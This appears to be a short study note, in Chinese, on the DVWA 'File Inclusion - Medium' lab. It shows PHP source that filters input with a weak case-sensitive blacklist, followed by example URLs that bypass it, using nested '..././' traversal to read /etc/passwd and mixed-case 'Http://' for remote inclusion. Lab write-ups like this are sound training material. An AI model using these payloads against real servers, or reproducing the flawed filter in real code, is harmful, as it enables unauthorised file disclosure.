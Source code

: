 # File Inclusion - Medium

## View Source

```PHP
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

// Input validation
$file = str_replace( array( "http://", "https://" ), "", $file );
$file = str_replace( array( "../", "..\"" ), "", $file );

?> 
```

- [`str_replace($a, $b, $c)`](https://www.php.net/manual/zh/function.str-replace.php)
    - 回傳將 c 的 a 全部替換成 b 後的字串

## Code Review

- 黑名單過濾了幾個關鍵字 (區分大小寫)

## Answer

- 論為什麼黑名單不好

### Example

```
http://127.0.0.1/vulnerabilities/fi/?page=..././..././hackable/flags/fi.php
http://127.0.0.1/vulnerabilities/fi/?page=..././..././..././..././..././etc/passwd
http://127.0.0.1/vulnerabilities/fi/?page=/etc/passwd
http://127.0.0.1/vulnerabilities/fi/?page=Http://www.google.com
http://127.0.0.1/vulnerabilities/fi/?page=hTtp://www.google.com
```